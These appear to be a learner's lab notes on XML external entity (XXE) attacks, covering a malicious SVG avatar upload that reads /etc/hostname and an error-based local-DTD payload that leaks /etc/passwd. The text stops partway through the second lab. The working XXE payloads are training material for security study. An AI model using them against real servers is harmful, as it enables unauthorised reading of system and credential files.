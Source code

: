 ## **8. Exploiting XXE via image file upload**
This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files. 
To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing.

1. Create a local SVG image with the following content:
    ```
	<?xml version="1.0" standalone="yes"?>
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
	<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
	</svg>
``


1. Post a comment on a blog post, and upload this image as an avatar.
2. When you view your comment, you should see the contents of the `/etc/hostname` file in your image. Use the "Submit solution" button to submit the value of the server hostname.

Analysis:

-  we will create and upload a svg file that contains the exploit entity
- same as traditional xxe: we can declare an entity and view its results via the application response IF NOT we make calls outbound and perform a out of band data exfiltration

nano test.svg  --> insert the desired entity inside of the svg file

	<?xml version="1.0" standalone="yes"?>
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
	<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
	</svg>
	
	![[Pasted image 20240930191646.png]]
		![[Pasted image 20240930191727.png]]

## **9. Exploiting XXE to retrieve data by repurposing a local DTD**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
You'll need to reference an existing DTD file on the server and redefine an entity from it.

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
    ```
    <!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
    <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
    &#x25;eval; 
    &#x25;error; '> 
    %local_dtd; ]>
    ```
    